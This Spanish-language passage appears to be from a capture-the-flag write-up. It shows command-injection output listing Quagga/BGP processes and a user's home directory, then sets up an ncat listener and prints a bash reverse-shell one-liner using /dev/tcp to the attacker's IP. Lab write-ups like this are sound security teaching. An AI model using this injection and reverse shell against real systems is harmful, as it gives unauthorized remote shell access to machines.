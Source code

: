 ```text
                                                        Verify status
                                                </button>
                                        </div>
                                </form>
                        </div>
                        <div>
                        <p>quagga     2442  0.0  0.1  24500  2392 ?        Ss   18:50   0:00 /usr/lib/quagga/zebra --daemon -A 127.0.0.
1</p><p>root       2451  0.0  0.0  15432   168 ?        Ss   18:50   0:00 /usr/lib/quagga/watchquagga --daemon zebra bgpd</p><p>quagga
    2631  0.0  0.1  29320  3432 ?        Ss   18:57   0:00 /usr/lib/quagga/bgpd -f /etc/quagga/bgpd-01.conf -d -i /tmp/bgpd-01.pid</p><
p>root       2804  0.0  0.1  11232  3020 ?        Ss   18:57   0:00 bash -c ps waux | grep quagga; bash rev.sh | grep -v grep</p><p>roo
t       2894  0.0  0.1  11232  3092 ?        Ss   18:58   0:00 bash -c ps waux | grep quagga;ls | grep -v grep</p><p>root       2896  0
.0  0.0  12944  1088 ?        S    18:58   0:00 grep quagga</p><p>rev.sh</p><p>rev.sh.1</p><p>test_intercept.pcap</p><p>user.txt</p>  <
/div>
                <div class="col-md-2">
                </div>
        </div>
</div>

    <script src="js/jquery.min.js"></script>
    <script src="js/bootstrap.min.js"></script>
    <script src="js/scripts.js"></script>
  </body>
</html>
```

Perfecto, al final aparece el ls del directorio $HOME del usuario.

> Se omite las peticiones HTTP por ser una replica de las peticiones anteriores.

# Reverse Shell, 1

Levantemos un listener del lado de mi máquina:

```text
xbytemx@laptop:~$ ncat -lnvp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
```

Ejecutemos una del arsenal para que el servidor se conecte a mi maquina y podamos interactuar con el STDIN y STDOUT de la maquina:

`bash -i >& /dev/tcp/10.10.15.126/3001 0>&1`

Concatenamos y lanzamos:
